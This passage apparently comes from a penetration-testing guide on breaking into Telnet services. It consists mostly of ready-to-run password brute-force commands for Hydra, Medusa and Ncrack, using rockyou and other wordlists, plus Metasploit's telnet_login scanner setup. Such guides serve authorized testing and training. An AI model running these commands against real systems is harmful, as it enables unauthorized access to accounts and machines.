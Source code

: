 ```bash
done < creds.txt
```

### Method 2: Brute Force Attack

#### Using Hydra
```bash
# Single username brute force
hydra -l root -P /usr/share/wordlists/rockyou.txt <target-ip> telnet

# Multiple usernames
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <target-ip> telnet

# Specific credential lists
hydra -L userlist.txt -P passlist.txt <target-ip> telnet -t 4 -V

# With timing controls
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target-ip> telnet -t 1 -w 3
```

#### Using Medusa
```bash
# Basic brute force
medusa -h <target-ip> -u root -P /usr/share/wordlists/rockyou.txt -M telnet

# Multiple targets
medusa -H targets.txt -u admin -P passwords.txt -M telnet -t 5

# Verbose output
medusa -h <target-ip> -U users.txt -P passwords.txt -M telnet -v 6
```

#### Using Ncrack
```bash
# Basic usage
ncrack -p 23 --user root -P /usr/share/wordlists/rockyou.txt <target-ip>

# Multiple services
ncrack -p telnet --user admin -P passwords.txt <target-ip>

# Timing controls
ncrack -p 23 --user root -P passwords.txt -T 3 <target-ip>
```

### Method 3: Metasploit Exploitation

#### Telnet Login Scanner
```bash
# Start Metasploit
msfconsole

# Use telnet login auxiliary
use auxiliary/scanner/telnet/telnet_login

# Set options
set RHOSTS <target-ip>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt

# Advanced options
set THREADS 5
set VERBOSE true
set STOP_ON_SUCCESS true
```